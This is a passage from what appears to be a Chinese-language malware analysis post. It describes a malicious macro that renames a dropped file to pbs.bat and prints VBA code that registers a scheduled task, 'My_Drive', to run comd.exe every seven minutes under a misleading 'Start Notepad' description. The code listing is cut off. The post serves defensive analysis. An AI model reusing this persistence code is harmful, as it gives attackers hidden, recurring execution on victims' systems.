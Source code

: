 
![image.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-c24dd8030e3da836af8c2594ea1a5eae11484d4c.png)

最后把 C:\\Users\\Public\\Music\\pbs.txt 命名为 C:\\Users\\Public\\Music\\pbs.bat 并调用自定义的 GHJFGHJGakh 函数，该函数具体分析在下面。

#### GHJFGHJGakh 函数分析：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-d34c56ea33b78063d6a7c13d7f71ada21cf1291d.png)  
该函数用于创建计划执行任务，在系统启动 60 秒后执行 C:\\Users\\Public\\Music\\comd.exe ，无限期每隔 7 分钟重复一次，创建的计划任务名是 My\_Drive。

具体细节参考：[启动触发器示例 (脚本) - Win32 apps | Microsoft Learn](https://learn.microsoft.com/zh-cn/windows/win32/taskschd/boot-trigger-example--scripting-)

```vb
Sub GHJFGHJGakh()
Const TriggerTypeTime = 1

Const ActionTypeExec = 0

Set service = CreateObject("Schedule.Service")
Call service.Connect

Dim rootFolder
Set rootFolder = service.GetFolder("\")

Dim taskDefinition

Set taskDefinition = service.NewTask(0)

Dim regInfo
Set regInfo = taskDefinition.RegistrationInfo
regInfo.Description = "Start Notepad at a certain time"
regInfo.Author = "Win"

Dim principal
Set principal = taskDefinition.principal

principal.LogonType = 3

Dim settings
Set settings = taskDefinition.settings
settings.Enabled = True
settings.StartWhenAvailable = True
settings.Hidden = False

Dim triggers
Set triggers = taskDefinition.triggers

Dim trigger
Set trigger = triggers.Create(TriggerTypeTime)

Dim startTime

Dim time
time = DateAdd("s", 60, Now)
startTime = XmlTime(time)

trigger.StartBoundary = startTime
trigger.Repetition.Interval = "PT07M"
trigger.ID = "TimeTriggerId"
trigger.Enabled = True

Dim Action
Set Action = taskDefinition.Actions.Create(ActionTypeExec)
```